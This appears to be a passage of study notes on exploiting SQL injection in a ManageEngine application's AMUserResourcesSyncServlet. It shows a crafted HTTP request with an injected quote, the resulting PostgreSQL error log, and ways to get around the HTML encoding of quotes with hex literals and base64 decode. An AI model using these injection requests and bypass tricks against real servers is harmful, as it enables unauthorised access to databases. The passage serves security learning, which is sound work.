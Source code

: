 How Houdini Escapes

postgres allows stacked query.

Single quote in string
```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1' HTTP/1.1
Host: manageengine:8443
```
Listing 19 - Sending an SQL Injection payload that contains a single quote

Looking at the log file we see the following error:
```
[ 2018-04-21 04:42:58.221 GMT ]:ERROR:  operator does not exist: integer &# integer at character 73
[ 2018-04-21 04:42:58.221 GMT ]:HINT:  No operator matches the given name and argument type(s). You might need to add explicit type casts.
[ 2018-04-21 04:42:58.221 GMT ]:STATEMENT:  select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1&#39
```
Listing 20 - The SQL error message in the log file

As it turns out, special characters are HTML-encoded before they are sent to the database for further processing. This causes us a few headaches as it seems that we cannot use quoted string values in our queries.

In case of myaql:

```
MariaDB [mysql]> select concat('1337',' h@x0r')
    -> ;
+-------------------------+
| concat('1337',' h@x0r') |
+-------------------------+
| 1337 h@x0r              |
+-------------------------+
1 row in set (0.00 sec)

MariaDB [mysql]> select concat(0x31333337,0x206840783072)
    -> ;
+-----------------------------------+
| concat(0x31333337,0x206840783072) |
+-----------------------------------+
| 1337 h@x0r                        |
+-----------------------------------+
1 row in set (0.00 sec)
```

As shown in the listing above, the ASCII characters in their hexadecimal representation are automatically decoded by the MySQL engine.

As an example, the listing below shows how to make use of the decode function in PostgreSQL to convert our "AWAE" base64 encoded string:

```
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```
Listing 22 - Using the decode function in PostgreSQL. Note: we still need quotes!

